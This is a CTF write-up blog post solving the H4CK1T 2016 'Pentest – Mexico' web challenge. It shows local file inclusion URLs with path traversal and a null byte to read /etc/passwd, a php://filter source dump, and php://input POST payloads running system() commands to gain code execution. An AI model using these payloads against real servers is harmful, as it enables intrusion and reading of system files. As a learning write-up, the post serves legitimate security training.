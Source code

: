 ```yaml
---
title: '[H4CK1T 2016] Pentest – Mexico Writeup'
author: Megabeets
type: post
date: 2016-10-02T20:54:26+00:00
url: /h4ck1t-2016-pentest-mexico/
categories:
  - H4CK1T CTF 2016
  - Writeups
tags:
  - CTF
  - H4CK1T
  - Web
  - Writeups

---
```

### **Description:**

> **Task: Remote pentest &#8211; Mexico &#8211; 150 &#8211; Web**
> 
> <span style="font-weight: 400;">Our foreign partners have some problems with qualified staff in the field of information technology, we decided to help them and to conduct remote testing of their new website. Your task is to find a hole in the system and grab some information to confirm the hack .Good luck !</span>  
> [<span style="font-weight: 400;">http://91.231.84.36:9150/</span>][1]

YAY! Web challenge! If you are following my blog <span style="font-size: 10pt;"><em>(If not, the subscribe form is on left)</em></span> you already know how much I love web challenges, It&#8217;s either easy points or great puzzle.

Let&#8217;s open the website and see what we have:

<img data-attachment-id="554" data-permalink="https://www.megabeets.net/h4ck1t-2016-pentest-mexico/h4ck1t_mexico1/#main" data-orig-file="http://www.megabeets.net/uploads/h4ck1t_mexico1.png" data-orig-size="874,503" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;0&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;&quot;,&quot;caption&quot;:&quot;&quot;,&quot;created_timestamp&quot;:&quot;0&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;0&quot;,&quot;iso&quot;:&quot;0&quot;,&quot;shutter_speed&quot;:&quot;0&quot;,&quot;title&quot;:&quot;&quot;,&quot;orientation&quot;:&quot;0&quot;}" data-image-title="h4ck1t_mexico1" data-image-description="" data-image-caption="" data-medium-file="http://www.megabeets.net/uploads/h4ck1t_mexico1-300x173.png" data-large-file="http://www.megabeets.net/uploads/h4ck1t_mexico1.png" decoding="async" loading="lazy" class="alignnone size-full wp-image-554" src="http://www.megabeets.net/uploads/h4ck1t_mexico1.png" alt="h4ck1t_mexico1" width="874" height="503" srcset="https://www.megabeets.net/uploads/h4ck1t_mexico1.png 874w, https://www.megabeets.net/uploads/h4ck1t_mexico1-150x86.png 150w, https://www.megabeets.net/uploads/h4ck1t_mexico1-300x173.png 300w, https://www.megabeets.net/uploads/h4ck1t_mexico1-768x442.png 768w, https://www.megabeets.net/uploads/h4ck1t_mexico1-800x460.png 800w" sizes="(max-width: 874px) 100vw, 874px" /> 

WOW! JUSTICE LEAGUE! Did I mentioned that I love comic books and especially Batman? Oh, Not yet?

Well, this challenge is going to be awesome. No. It&#8217;s already awesome!

OK, deep breath. Let&#8217;s start. See that menu on the bottom? Let&#8217;s click on some link to see what will happen.

<img data-attachment-id="556" data-permalink="https://www.megabeets.net/h4ck1t-2016-pentest-mexico/h4ck1t_mexico2/#main" data-orig-file="http://www.megabeets.net/uploads/h4ck1t_mexico2.png" data-orig-size="1108,467" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;0&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;&quot;,&quot;caption&quot;:&quot;&quot;,&quot;created_timestamp&quot;:&quot;0&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;0&quot;,&quot;iso&quot;:&quot;0&quot;,&quot;shutter_speed&quot;:&quot;0&quot;,&quot;title&quot;:&quot;&quot;,&quot;orientation&quot;:&quot;0&quot;}" data-image-title="h4ck1t_mexico2" data-image-description="" data-image-caption="" data-medium-file="http://www.megabeets.net/uploads/h4ck1t_mexico2-300x126.png" data-large-file="http://www.megabeets.net/uploads/h4ck1t_mexico2-1024x432.png" decoding="async" loading="lazy" class="alignnone size-full wp-image-556" src="http://www.megabeets.net/uploads/h4ck1t_mexico2.png" alt="h4ck1t_mexico2" width="1108" height="467" srcset="https://www.megabeets.net/uploads/h4ck1t_mexico2.png 1108w, https://www.megabeets.net/uploads/h4ck1t_mexico2-150x63.png 150w, https://www.megabeets.net/uploads/h4ck1t_mexico2-300x126.png 300w, https://www.megabeets.net/uploads/h4ck1t_mexico2-768x324.png 768w, https://www.megabeets.net/uploads/h4ck1t_mexico2-1024x432.png 1024w, https://www.megabeets.net/uploads/h4ck1t_mexico2-800x337.png 800w" sizes="(max-width: 1108px) 100vw, 1108px" /> 

Look at the URL, the &#8220;about&#8221; page is included by the &#8220;index.php&#8221; using php commands &#8216;require&#8217; or &#8216;include&#8217;. When we see something like that in a challenge we can check if the site is vulnerable to LFI attack. In Local File Inclusion attack we can include pages from the local server. Let&#8217;s try to include /etc/passwd to check for the existence of the vulnerability

http://91.231.84.36:9150/index.php?page=../../../../etc/passwd

Didn&#8217;t work. Let&#8217;s try to add null byte at the end

http://91.231.84.36:9150/index.php?page=../../../../etc/passwd%00

<img data-attachment-id="562" data-permalink="https://www.megabeets.net/h4ck1t-2016-pentest-mexico/h4ck1t_mexico3/#main" data-orig-file="http://www.megabeets.net/uploads/h4ck1t_mexico3.png" data-orig-size="1002,470" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;0&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;&quot;,&quot;caption&quot;:&quot;&quot;,&quot;created_timestamp&quot;:&quot;0&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;0&quot;,&quot;iso&quot;:&quot;0&quot;,&quot;shutter_speed&quot;:&quot;0&quot;,&quot;title&quot;:&quot;&quot;,&quot;orientation&quot;:&quot;0&quot;}" data-image-title="h4ck1t_mexico3" data-image-description="" data-image-caption="" data-medium-file="http://www.megabeets.net/uploads/h4ck1t_mexico3-300x141.png" data-large-file="http://www.megabeets.net/uploads/h4ck1t_mexico3.png" decoding="async" loading="lazy" class="alignnone size-full wp-image-562" src="http://www.megabeets.net/uploads/h4ck1t_mexico3.png" alt="h4ck1t_mexico3" width="1002" height="470" srcset="https://www.megabeets.net/uploads/h4ck1t_mexico3.png 1002w, https://www.megabeets.net/uploads/h4ck1t_mexico3-150x70.png 150w, https://www.megabeets.net/uploads/h4ck1t_mexico3-300x141.png 300w, https://www.megabeets.net/uploads/h4ck1t_mexico3-768x360.png 768w, https://www.megabeets.net/uploads/h4ck1t_mexico3-800x375.png 800w" sizes="(max-width: 1002px) 100vw, 1002px" /> 

It worked! We successfully got the /etc/passwd file. So what now? Let&#8217;s try to read the pure php file to see if the flag is in the php pages.

We can use php://filter to print the content of index.php in base64 format. We need to encode the content because we don&#8217;t want the php engine to compile the php parts of the code.

http://91.231.84.36:9150/index.php?page=php://filter/convert.base64-encode/resource=index

We got encoding page, now let&#8217;s decode it and see if we find a flag . I deleted some content to decrease the size of the code in the post.

<pre class="lang:php decode:true">&lt;?php
    if ($_GET["page"]) {
    $file = $_GET["page"].".php";
    // simulate null byte issue
    $file = preg_replace('/\x00.*/',"",$file);
        include($file);
    } 
    else
    {
        echo '    &lt;div class="container"&gt;
        &lt;div class="row"&gt;
            &lt;div class="col-md-6 col-sm-12"&gt;
                &lt;h1&gt;The Big Picture&lt;/h1&gt;
                &lt;p&gt;Welcome to the Big Picture. This fantastic digital resource combines the best of formal and informal learning. 
If you are already using The Big Picture, you can register for and access exclusive extra material from this platform. 
This is The Big Picture: have you experienced it yet?  &lt;/p&gt; 
            &lt;/div&gt;
        &lt;/div&gt;';
    }
    //flag{h@h@h@_man_n1ce_try} 

?&gt;
&lt;!DOCTYPE html&gt;
&lt;html class="full" lang="en"&gt;
&lt;head&gt;

...
...
...

    &lt;/div&gt;
    &lt;script src="js/jquery.js"&gt;&lt;/script&gt;
    &lt;script src="js/bootstrap.min.js"&gt;&lt;/script&gt;

&lt;/body&gt;

&lt;/html&gt;
</pre>

&nbsp;

Nope. No flag. The &#8220;flag{&#8230;}&#8221; thing isn&#8217;t really the flag because the flag in this CTF should be in h4ck1t{&#8230;} format.  
Also the other pages like &#8216;about&#8217; and &#8216;contact&#8217; is not contain any flag. So we probably need to perform LFI to RCE (Remote Code Execution) attack. We can use the php://input method to send php commands through Post requests. Using Firefox Hackbar plugin we can do it easily.  
Put the URL to be http://91.231.84.36:9150/index.php?page=php://input  And the POST data to be

<pre class="lang:default decode:true">&lt;?  system('ls') ;?&gt;</pre>

<img data-attachment-id="567" data-permalink="https://www.megabeets.net/h4ck1t-2016-pentest-mexico/h4ck1t_mexico4/#main" data-orig-file="http://www.megabeets.net/uploads/h4ck1t_mexico4.png" data-orig-size="528,206" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;0&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;&quot;,&quot;caption&quot;:&quot;&quot;,&quot;created_timestamp&quot;:&quot;0&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;0&quot;,&quot;iso&quot;:&quot;0&quot;,&quot;shutter_speed&quot;:&quot;0&quot;,&quot;title&quot;:&quot;&quot;,&quot;orientation&quot;:&quot;0&quot;}" data-image-title="h4ck1t_mexico4" data-image-description="" data-image-caption="" data-medium-file="http://www.megabeets.net/uploads/h4ck1t_mexico4-300x117.png" data-large-file="http://www.megabeets.net/uploads/h4ck1t_mexico4.png" decoding="async" loading="lazy" class="alignnone size-full wp-image-567" src="http://www.megabeets.net/uploads/h4ck1t_mexico4.png" alt="h4ck1t_mexico4" width="528" height="206" srcset="https://www.megabeets.net/uploads/h4ck1t_mexico4.png 528w, https://www.megabeets.net/uploads/h4ck1t_mexico4-150x59.png 150w, https://www.megabeets.net/uploads/h4ck1t_mexico4-300x117.png 300w" sizes="(max-width: 528px) 100vw, 528px" /> 

Success. We got the RCE and we now know about a new secret file. Let&#8217;s read it using the same way but this time with

<pre class="lang:php decode:true"> &lt;?  system('cat file') ;?&gt;</pre>

And we got the flag 🙂

`<strong>Flag: </strong><em>h4ck1t{g00d_rfi_its_y0ur_fl@g}</em>`

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img class="wp-image-149 alignnone" src="https://www.megabeets.net/uploads/megabeets_inline_logo.png" alt="megabeets_inline_logo" width="61" height="45" />Eat Veggies</a>
  </p>
</div>

 [1]: http://91.231.84.36:9150/